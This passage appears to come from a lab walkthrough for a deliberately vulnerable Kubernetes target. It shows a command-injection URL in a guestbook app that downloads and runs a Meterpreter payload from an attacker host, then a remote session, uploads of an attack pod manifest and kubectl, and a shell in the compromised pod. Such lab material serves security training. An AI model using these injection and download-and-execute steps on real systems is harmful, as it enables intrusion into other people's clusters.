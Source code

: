 30. Note that the complete URL bar in the previous step will look like:

    ```
    http://bustakube-controlplane:31361/guestbook.php?cmd=set&key=command&value=curl http://10.23.58.30/mrsbin >mrsbin ; chmod 0700 mrsbin ; ./mrsbin
    ```

31. Go back to the browser tab that was loading `status.php` and hit reload.  Alternatively, use this URL:

    <http://bustakube-controlplane:31361/status.php>

32. The status page will seem to be stuck loading forever.  This is good.  If you checked out your Python web server's output, you'll see that it has logged a `GET` request from the Kubernetes cluster, requesting the `mrsbin` binary:

    ```shell
    $ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.23.58.41 - - [28/Jul/2023 00:52:13] "GET /mrsbin HTTP/1.1" 200 -
    ```

33. Go check your Metasploit console. You should now see a line that reads something like "Meterpreter session 1 opened…"

34. Congratulations! You've achieved remote code execution in a container that's in a pod in a Kubernetes cluster.

35. Interact with this new session:

    ```shell
    sessions -i 1
    ```

36. Upload a pod manifest YAML file into the container.

    ```shell
    upload /root/K8S-Exercise/attack-pod.yaml
    ```

37. Send a `kubectl` binary into the container you've compromised.

    ```shell
    upload /root/K8S-Exercise/kubectl
    ```

38. Instruct meterpreter to give you a minimal interactive shell in the pod. You won't get any immediate feedback from the system, just a pair of "Process … created" and "Channel … created" lines from Metasploit.

    ```shell
    shell
    ```

39. See what user you've scored.

    ```shell
    id
    ```
